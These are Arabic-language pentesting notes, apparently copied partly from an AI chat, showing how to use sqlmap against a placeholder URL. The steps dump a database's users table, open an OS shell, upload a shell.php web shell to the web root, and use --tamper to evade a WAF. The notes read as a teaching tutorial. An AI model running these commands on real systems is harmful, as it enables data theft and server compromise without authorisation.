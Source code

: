 

## ممكن تعمل الامر ده مع Burp suite
انك تروح تاخد كل الكلام الي في ال Request وتحطه في ملف 
![Pasted image 20250316173403.png](attachments/Pasted image 20250316173403.png)
وبعدين تكتب الامر ده 
```
sqlmap -r اسم الملف
```


---

### **خطوات عملية للاستغلال كـ Pentester**
1. **اكتشاف الثغرة:**
   - ابدأ بـ:
     ```
     sqlmap -u "http://example.com/product.php?id=1" --batch
     ```
   - لو POST، استخدم `--data`.

2. **جمع المعلومات:**
   - اسحب الداتابيز:
     ```
     sqlmap -u "http://example.com/product.php?id=1" --dbs
     ```
   - اسحب الجداول والأعمدة:
     ```
     sqlmap -u "http://example.com/product.php?id=1" -D testdb --tables
     ```

3. **سحب البيانات:**
   - استخدم:
     ```
     sqlmap -u "http://example.com/product.php?id=1" -D testdb -T users --dump
     ```

4. **التحكم في السيرفر:**
   - جرب شيل:
     ```
     sqlmap -u "http://example.com/product.php?id=1" --os-shell
     ```
   - أو اكتب ملف:
     ```
     sqlmap -u "http://example.com/product.php?id=1" --file-write=/home/user/shell.php --file-dest=/var/www/html/shell.php
     ```

5. **تخصيص:**
   - لو الموقع بطيء، زوّد الـ threads:
     ```
     sqlmap -u "http://example.com/product.php?id=1" --threads=5 --dbs
     ```

#### **نصيحة:**
جرب كل أمر لوحده عشان تفهم الردود، واستخدم `--batch` لو عايز تسرع. لو حاسس إن في حماية زي WAF، جرب `--tamper` عشان تتخطاها.

---

ها، عايز أشرح حاجة زي `--tamper` أو أجرب معاك مثال معين؟